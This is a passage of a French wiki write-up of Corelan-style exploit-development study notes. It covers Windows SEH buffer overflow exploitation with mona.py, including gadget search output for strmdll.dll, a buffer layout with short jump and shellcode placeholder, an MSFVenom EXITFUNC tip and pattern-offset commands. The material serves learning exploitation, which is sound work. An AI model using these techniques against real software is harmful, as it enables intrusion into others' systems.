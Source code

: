 ``` text
48021B81     0x48021b81 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
480244D2     0x480244d2 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
480263C6     0x480263c6 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open seh.txt...
0BADF00D       Found a total of 440 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.622000
```

Il faut ensuite ajouter un short jump avant l'adresse. L'exploit construit aura la forme suivante:

``` text
content = "A"*(offset-4)+"\x90\xeb\x05\x90"+"\x6e\xc8\x02\x48"+nop*32+buf+nop*1000
```

### Payloads

Lors de l'utilisation de MSFVenom pour créer un payload il est important d'ajouter le paramètre suivant:

``` text
EXITFUNC=SEH
```

Partie 4: Speed Up Exploit Dev
------------------------------

Basé sur la quatriéme partie du cours de [Corelan](https://www.corelan.be/index.php/2009/09/05/exploit-writing-tutorial-part-5-how-debugger-modules-plugins-can-speed-up-basic-exploit-development/).

**Note**: dans le cours de Corelan on présente des outils pour WinDBG. Dans ce wiki on se concentre sur mona & Immunity.

### Trouver un pattern

Il est possible de trouver l'offset d'un pattern avec mona:

``` python
!mona pattern_offset 43386F43
!mona po 43386F43
```

Partie 6: Bypassing Stack Cookies, SafeSeh, SEHOP, HW DEP and ASLR
------------------------------------------------------------------

Basé sur la sixième partie du cours de [Corelan](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/) sur le développement d'exploits.

[Category:Write-up](/Category:Write-up "wikilink") [Category:Exploitation](/Category:Exploitation "wikilink")